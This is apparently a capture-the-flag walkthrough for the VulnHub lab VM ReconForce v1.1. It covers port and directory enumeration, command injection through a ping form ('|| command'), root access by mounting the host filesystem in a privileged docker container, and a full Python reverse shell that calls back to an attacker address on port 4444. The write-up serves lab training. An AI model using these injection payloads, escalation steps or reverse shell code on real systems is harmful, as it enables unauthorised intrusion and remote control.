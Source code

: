 # Walkthrough: [ReconForce v1.1](https://www.vulnhub.com/entry/hacknos-reconforce-v11,416/)
## Video Guide: [Youtube link](https://www.youtube.com/watch?v=zZCXck8f-m0)
## Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)
- [Bonus](#bonus)
	- [CLI](#cli)
	- [Intresting Files](#intresting-files)

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14 `
	
- VM info: `nmap -A -T4 -v 192.168.0.14`
	
	* <pre>
	  21/tcp open  ftp     vsftpd 2.0.8 or later
	  22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
	  880/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	  </pre>
	* FTP **Anonymous** log-in is on. 
		* FTP Server Banner: "ftp 'Security@hackNos'"
	  
- Web Server Directory: `dirb -w http://192.168.0.14` 

	* <pre>
	  http://192.168.0.14/index.html
	  http://192.168.0.14/css/style.css
	  http://192.168.0.14/css/2.jpg
	  </pre>
	  
- Web Server 192.168.0.14/5ecure login using:

	* admin:Security@hackNos, FTP Server Banner

- Web Server Directory: `dirb -w http://192.168.0.14/5ecure`		
	* <pre>
	  http://192.168.0.14/5ecure/index.html, form that POSTs data to output.php
	  http://192.168.0.14/5ecure/css/style.css
	  http://192.168.0.14/5ecure/css/2.jpg
	  http://192.168.0.14/5ecure/output.php, simple ping <ip> function + stdout
	  </pre>

## Penetration
- 192.168.0.14/5ecure/out.php

	* `exec(ping $ip)`, possible shell injection 
	
- $ip = || command

	* '; command' / '&& command' / '& command' didn't work out, possible character escape 
	* Examples:
		* ip=|| ls, *system navigation*
		* ip=|| whoami, *www-data*
		* ip=|| vi *filename*, *privilege check*
		* ip=|| export	

- [intresting files](#intresting-files):

	* /var/opt/python.py, creates a connection to 192.168.0.104:4444 and runs an interactive shell
	* /etc/passwd, user information

## Escelation

- `ssh 192.168.0.14 -l recon`
	* pass: Security@hackNos
- `docker run -it --privileged --name=ctf -v /:/host:rw alpine sh`
- Container: `cd /host`

---

## Bonus

### CLI 
- Configurate host/attacking machine network settings
	* Add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- Connect to the network using the new interface
- `nc -lvp 4444` to initiate a listener on 4444
- On 192.168.0.14/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: `python -c 'import pty; pty.spawn("/bin/bash")'`
- `getent group`: 
	* `docker:x:119:`, passwd --> `recon:x:1000:119:rahul:/home/recon:/bin/bash`
	* recon user gid = docker 

### Intresting files

- /var/opt/python.py:
	```
	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])
	```
	
- /var/etc:
	```
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	recon:x:1000:119:rahul:/home/recon:/bin/bash
	ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```
